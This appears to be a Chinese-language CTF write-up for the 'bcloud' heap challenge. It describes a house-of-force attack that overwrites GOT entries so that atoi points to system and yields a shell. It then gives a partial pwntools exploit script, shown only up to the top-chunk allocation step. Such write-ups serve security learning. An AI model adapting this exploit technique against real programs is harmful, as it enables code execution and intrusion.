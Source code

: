 ### 利用

1. 利用初始化名字处的漏洞泄漏堆的基地址。。
2. 利用 house of force 将 top chunk 分配至全局的 0x0804B0A0 的 &notesize-8 处，当再次申请内存时，便返回notesize地址处的内存，从而我们就可以控制所有note的大小以及对应的地址了。
3. 修改前三个 note 的大小为16，并修改其指针为 free@got，atoi@got，atoi@got
4. 将 free@got 修改为 puts@plt。
5. 泄漏 atoi 地址。
6. 再次修改另外一个 atoi got 项为 system 地址，从而拿到shell。

具体脚本如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./bcloud"
bcloud = ELF("./bcloud")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./bcloud")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def exp():
    # leak heap base
    p.sendafter('Input your name:\n', 'a' * 64)
    p.recvuntil('Hey ' + 'a' * 64)
    # sub name's chunk' s header
    heap_base = u32(p.recv(4)) - 8
    log.success('heap_base: ' + hex(heap_base))
    p.sendafter('Org:\n', 'a' * 64)
    p.sendlineafter('Host:\n', p32(0xffffffff))
    # name,org,host, for each is (0x40+8)
    topchunk_addr = heap_base + (0x40 + 8) * 3

    # make topchunk point to 0x0804B0A0-8
    p.sendlineafter('option--->>', '1')
    notesize_addr = 0x0804B0A0
    notelist_addr = 0x0804B120
    targetaddr = notesize_addr - 8
    offset_target_top = targetaddr - topchunk_addr
    # 4 for size_t, 7 for malloc_allign
    malloc_size = offset_target_top - 4 - 7
    # plus 4 because malloc(v2 + 4);
    p.sendlineafter('Input the length of the note content:\n',
                    str(malloc_size - 4))
    # most likely malloc_size-4<0...
    if malloc_size - 4 > 0:
        p.sendlineafter('Input the content:\n', '')
```